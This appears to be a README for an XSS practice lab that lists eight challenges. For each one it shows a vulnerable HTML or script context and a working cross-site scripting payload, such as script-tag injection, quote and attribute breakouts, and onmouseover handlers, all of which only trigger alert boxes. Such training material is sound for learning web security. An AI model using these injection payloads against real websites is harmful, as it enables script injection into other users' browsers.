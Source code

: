 # XSS-Practice-Lab


## Lab Link : http://leettime.net/xsslab1/chalg1.php

## Author : Sheikh Rishad

<XSS Practice Lab/>


Challenge_1:

    <input type="text" name="name"></input>

payload :   

    <script>alert(1)</script>




Challenge_2:

     <input type="text" name="name" value=hack></input>

payload :  

     ><script>alert(document.URL)</script>


Challenge_3:

     <input type="text" name="name" value="hack"></input>

payload :  

    "><script>alert(document.URL)</script>


Challenge_4:

     <input type="text" name="name" value='hack'></input>

payload :   
 
    '><script>alert(document.URL)</script>


Challenge_5:

    <center><script>var search_str="hack";</script>

payload :   
  
    </script><script>alert(document.URL)</script>


Challenge_6:

     <center><script>var search_str='hack';</script>

payload : 
  
    </script><script>alert(document.URL)</script>


Challenge_7:

     <input type="text" name="name" value='<scriptalert("hack")</script'></input>

payload :   
 
    'onmouseover='alert(document.URL);


Challenge_8:

    <input type="text" name="name" value='&gt;&lt;script&gt;alert(1)&lt;/script&gt;'></input>

payload :   
       
    "onmouseover="alert(document.URL);
